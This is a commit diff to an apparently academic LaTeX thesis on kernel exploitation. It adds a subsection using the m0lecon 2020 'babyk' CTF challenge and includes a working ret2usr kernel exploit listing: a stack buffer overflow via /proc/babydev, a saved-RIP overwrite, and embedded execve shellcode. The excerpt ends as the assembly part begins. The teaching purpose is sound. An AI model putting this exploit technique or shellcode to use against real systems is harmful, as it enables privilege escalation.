

Before and after one commit to enz93/thesis, a LaTeX thesis (thesis.tex): part of page 11 of 49 before the commit and two parts of pages 11 and 12 of 52 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Aggiunto esempio kernel user

```diff
--- a/thesis.tex
+++ b/thesis.tex
@@ -119,5 +119,62 @@ The kernel has to control all the hardware on the computer and most of the lower
 abstractions (virtual memory, file systems, IPC facilities, etc.). This implies many hierarchical, interconnected subsystems that the attacker may have to deeply understand to successfully trigger and exploit a specific
 vulnerability. This characteristic can also become an advantage for the exploit developer, as a complex system is also less likely to be bug-free.
 \end{itemize}
-\glnote{qua ci starebbe un esempio di exploit banale, facendo i paralleli con quello che succede in un exploit user-land}
-TO DO...
+\subsection{Example of User-land and Kernel-land exploit}
+\label{subsect:example_of_kernel_user_land}
+
+To understand differences and similarities with user-land, we will show two examples in both environments and we will see similarities and differences. In this case, we will merely consider the file that allows the exploit and what we will be able to obtain by exploiting the vulnerabilities present in the kernel/program.
+
+The CTF ~\cite{m0leconTeaser2020_babyk} uses an unprotected kernel where they provide the source code and the exploited vulnerability is a buffer overflow.
+
+The goal is to read the flag in the directory \textit{/home/user/exp} to overcome the challenge.
+
+\begin{lstlisting}
+#define MAP_PRIVATE     0x02    /* Changes are private.  */
+#define MAP_FIXED       0x10    /* Interpret addr exactly.  */
+#define MAP_ANONYMOUS   0x20    /* Don't use a file.  */
+#define O_RDWR        0x0002  /* open for reading and writing */
+
+typedef unsigned long long qword;
+
+extern void kernel_shellcode();
+char user_shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";
+
+qword mcpy(char * dst, char * src, qword n)
+{
+    for (qword i = 0; i < n; ++i)
+        dst[i] = src[i];
+  return n;
+}
+
+void * mmap(void * addr, qword size, qword prot, qword flags)
+{
+    return syscall64(9, addr, size, prot, flags, -1, 0);
+}
+int _start (int argc, char **argv)
+{
+  char buf[0x1000];
+  char * payload = buf;
+    // Prepare memory for ret2usr
+  void *userland_stack = mmap((void *)0xcafe000, 0x1000, 7, MAP_ANONYMOUS|MAP_PRIVATE|0x0100);
+  void *userland_code = mmap((void *)0x1234000, 0x1000, 7, MAP_ANONYMOUS|MAP_FIXED|MAP_PRIVATE);
+  mcpy(userland_code, &user_shellcode,sizeof(user_shellcode));
+
+    // Fill up stack until saved_rip
+  for (int i = 0;  i < 124; i++)
+    *(payload++) = 'A';
+  *(qword *)payload = (qword) kernel_shellcode; payload += 8;
+  // Profit
+  int vuln_fd = syscall64(2, "/proc/babydev", O_RDWR,100,0, 0,0);
+  syscall64(1, vuln_fd, buf, payload - buf, -1,-1,-1);
+  syscall64(0x60, 0, -1,-1,-1,-1,-1);
+  return 0;
+}
+\end{lstlisting}
+\begin{lstlisting}
+.text
+.intel_syntax noprefix
+
+.global syscall64
+.global kernel_shellcode
+
+kernel_shellcode:
```
Also changed, not shown: bib.bib (+6 -0 lines), thesis.tex (90 more changed lines).
